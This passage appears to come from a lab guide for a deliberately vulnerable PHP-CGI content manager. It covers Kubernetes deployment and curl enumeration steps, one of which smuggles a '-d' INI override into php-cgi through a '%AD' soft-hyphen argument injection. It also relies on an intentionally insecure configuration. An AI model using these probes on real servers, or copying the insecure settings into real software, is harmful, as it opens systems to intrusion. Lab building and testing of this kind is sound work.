 ```yaml
apiVersion: v1
kind: Service
metadata:
  name: legacy-cms-svc
spec:
  type: LoadBalancer
  selector: { app: legacy-cms }
  ports:
  - port: 5000
    targetPort: 5000
```

**Build & Deploy Steps:**

```bash
cd docker
docker build -t legacy-intranet-cms:latest .
k3s ctr images import <(docker save legacy-intranet-cms:latest)
kubectl apply -f ../legacy-cms-deployment.yaml
kubectl rollout status deployment/legacy-cms
```

---

## 5. Discovery & Enumeration

1. **Locate the endpoint**  
   ```bash
   curl http://<HOST>:5000/robots.txt
   ```
   → Hint at `/cgi-bin/php-cgi`

2. **Confirm CGI SAPI**  
   ```bash
   curl http://<HOST>:5000/phpinfo.php?debug=1 \
     | grep -E "Server\ API|allow_url_include|disable_functions"
   ```
   → Expect:
   - **Server API**: cgi-fcgi  
   - **allow_url_include**: On  
   - **disable_functions**: (empty)

3. **Test INI override support**  
   ```bash
   curl "http://<HOST>:5000/cgi-bin/php-cgi?%ADd+display_errors%3D1"
   ```
   → Parse errors appear, confirming `-d` works.

4. **View help text**  
   ```bash
   curl "http://<HOST>:5000/cgi-bin/php-cgi?--help"
   ```
   → Shows `php-cgi` usage, including `-d` flags.

---
